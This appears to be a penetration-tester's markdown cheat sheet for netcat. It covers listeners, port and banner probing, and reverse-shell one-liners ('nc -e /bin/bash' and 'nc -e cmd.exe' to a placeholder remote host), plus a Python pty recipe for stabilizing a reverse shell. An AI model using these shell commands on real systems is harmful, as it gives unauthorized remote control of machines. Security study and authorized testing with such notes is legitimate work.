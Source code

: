 # Netcat - NC

## Listner

```
nc -nlvp <LPORT>
```

```
rlwrap -cAr nc -nlvp <LPORT>
```

## Connect

```
nc <RHOST> <RPORT>
```

Use `-e` to link the connection to a program 
```
nc -e /bin/bash <RHOST> <RPORT>
```

```
nc -e cmd.exe <RHOST> <RPORT>
```

## investigate ports

- test port
```
nc -zv <RHOST> <RPORT>
```

- get banner
```
echo "QUIT" | nc <RHOST> <RPORT>
```

- send http request
```
printf "GET / HTTP/1.0\r\n\r\n" | nc <RHOST> <RPORT>
```


## Stabilize Reverse Shell

```
python3 -c "import pty;pty.spawn('/bin/bash')"
export TERM=xterm
Ctrl z
stty raw -echo; fg
```




## Links

[Stabilize a reverse shell](https://tkcyber.com/index.php/2022/06/19/stabilize-a-reverse-shell/)